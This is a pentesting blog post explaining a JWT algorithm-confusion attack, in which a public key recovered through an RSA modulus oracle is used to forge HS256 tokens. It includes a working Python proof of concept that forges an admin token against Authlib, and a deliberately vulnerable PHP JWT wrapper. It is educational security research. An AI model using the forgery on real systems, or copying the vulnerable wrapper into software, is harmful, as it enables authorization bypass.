 ```yaml
---
layout: post
title: "Modulus Oracle & JWT"
author: "RoP Team"
description: "Breaking a vulnerable JWT with a Modulus Oracle"
keywords: "RSA, JWT, crypto, oracle, modulus"
date: 2020-06-21 00:00:00 -0500
categories: pentesting
lang: en
lang-ref: modulus-oracle-part2
---
```


In a [previous post][1] we told about the *Modulus Oracle Attack*. This technique exploits the ability to treat a *modulus error* as an oracle to infer the modulus value and rebuild the public key. Really, it should not be a problem. The public key is public anyway. But in certain cases to know the public key could be very useful. The following case is one of them.

<!--more-->

### JWT and the algorithm switch

[JWT][2] is a widely used technology for authorization in web applications. It allows us create and verify authorization tokens using cryptography to guarantee the token's integrity. However exists vulnerabilities in certain JWT implementations that allows us forge tokens and bypass authorization controls. An attack against some JWT libraries is detailed in [this post][3]. Today all these vulnerabilities should be fixed but it is still possible to find them with the help of a careless developer.

For example, is very easy to screw it up by using the python library [Authlib][4]. The following code shows how the `decode` function accepts in the same way a valid token and a forged one. We have `Authlib 0.14.3` (the latest to date)

```py
from base64 import urlsafe_b64encode as enc
from base64 import urlsafe_b64decode as dec
from Crypto.Hash import HMAC, SHA256
from Crypto.PublicKey import RSA
import json

from authlib.jose import jwt


# Generate a RSA keys pair
private_key = RSA.generate(1024)
public_key = private_key.publickey()

# Generate a valid RS256 signed token
valid_token = jwt.encode(
    {'alg': 'RS256'},
    {'admin': False},
    private_key.export_key()
)
print('VALID TOKEN: {}'.format(valid_token))

# Forging a HS256 signed token
header = enc(json.dumps({'alg': 'HS256'}).encode()).strip(b'=')
body = enc(json.dumps({'admin': True}).encode()).strip(b'=')
signature = enc(HMAC.new(
    public_key.export_key(),
    b'.'.join([header, body]),
    SHA256
).digest()).strip(b'=')
forged_token = b'.'.join([header, body, signature])
print('FORGED TOKEN: {}'.format(forged_token))

# decoding the valid token
data = jwt.decode(valid_token, public_key.export_key())
print('REAL DATA: {}'.format(data))

# decoding the forged token
data = jwt.decode(forged_token, public_key.export_key())
print('FAKE DATA: {}'.format(data))
```

**Output:**
```
VALID TOKEN: b'eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ZmFsc2V9.eo7MNx1XBcZ5dw_EY4yTLrO0rSGkOODeUBapQ__QTx6NzbnF65Gre2hcRpBOx3Mq24AR4LNnG2Kso2EboeS7qNZbC8fiTxO7YlKufbHoOXy1-p5_31AhuvOewncksvhOb7F5Y0WZX5vmAdKv7MlOSZIlMwRvJaoSRbjqkfEC7Xc'
FORGED TOKEN: b'eyJhbGciOiAiSFMyNTYifQ.eyJhZG1pbiI6IHRydWV9.BlEUBfCRolm91O1gOSXPPSJJkmVXjsfiNY5JwNojdBY'
REAL DATA: {'admin': False}
FAKE DATA: {'admin': True}
```

Write vulnerable code could be a little more harder with other libraries but not impossible.

As you can see, to exploit this vulnerability we need the public key. We can use the public key from the SSL/TLS certificate but there is no guarantee that these keys be the same. So we had the idea to carry out a *Modulus Oracle Attack* to obtain the public key. We have searched for reasonably weak JWT libraries and vulnerable to *Modulus Oracle* and we found one.

### gree/jose

[gree/jose][5] is a JWT library for PHP. Old versions (<=2.2.0) of this library are vulnerable to algorithm switch. The current version (2.2.1) is not vulnerable but with the help of our developer it could be. If we look at [the patch][6] introduced in the current version we will see that HMAC algorithms are disallowed when the signing algorithm is autodetected by the library.  In this way vulnerable code is prevented when lazy coders forget specify the signing algorithm in the `verify` function. But our developer might think that it is a great idea to code his own utility class that autodetects the algorithm and write something like the following:

```php
class JWTUtil {
    function encode($data, $key, $algorithm='HS256') {
        $jwt = new JOSE_JWT($data);
        $jwt = $jwt->sign($key, $algorithm);
        return $jwt->toString();
    }
    
    function decode($token, $key) {
        try {
            $jwt = JOSE_JWT::decode($token);
            $jwt->verify($key, $jwt->header['alg']); // autodetect algorithm
        } catch (Exception $err) {
            return NULL;
        }
        return $jwt->claims;
    }
}
```

> **WARNING:** The previous code is **VULNERABLE** and is placed only for demonstration purposes.

### phpseclib

`gree/jose` internally depends on [phpseclib][7]. It is a library with pure-PHP implementations of cryptographic algorithms. Today the latest release is 2.0.27. If we go through the source code, we will see that the gree/jose's `JWT::verify` method reaches the phpseclib's `RSA::_rsavp1` method. Let's take a look the last one.

Source: [phpseclib github][8]
```php
function _rsavp1($s)
{
    if ($s->compare($this->zero) < 0 || $s->compare($this->modulus) > 0) {
        user_error('Signature representative out of range');
        return false;
    }
    return $this->_exponentiate($s);
}
```

As we can see, this method validates that the signature value (`$s`) is in the range $$[0, N]$$ (with $$N$$ as the modulus). When the signature is out of range, an user error is triggered and displayed on the web page as a **Notice** message. So we have an identifiable behavior to perform a Modulus Oracle attack.

> For errors to be displayed on the web page, the value of PHP's `display_errors` directive must be `On`.

Now we have all the pieces: a vulnerable JWT implementation and a Modulus Oracle. Let's move on to the demo.

### Demo

We have published in our [github repository][9] a vulnerable CTF-like application to demonstrate the described attack. You can try solving it by yourself or see the solution in the script `modulus-oracle-jwt.py`.

<iframe width="560" height="315" src="https://www.youtube.com/embed/ygOps-lZaxc" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

<br>

Because web applications generally don't show errors, it is unlikely that we can use them to get a Modulus Oracle. But is possible to get a Modulus Oracle in another way.

To be continue...


[1]: https://blog.rop.la/en/pentesting/2020/06/15/modulus-oracle-part1.html
[2]: https://jwt.io/introduction/
[3]: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries
[4]: https://github.com/lepture/authlib
[5]: https://github.com/nov/jose-php
[6]: https://github.com/nov/jose-php/commit/1cce55e27adf0274193eb1cd74b927a398a3df4b
[7]: https://github.com/phpseclib/phpseclib
[8]: https://github.com/phpseclib/phpseclib/blob/2.0.27/phpseclib/Crypt/RSA.php#L2426
[9]: https://github.com/rop-la/modulus-oracle-jwt
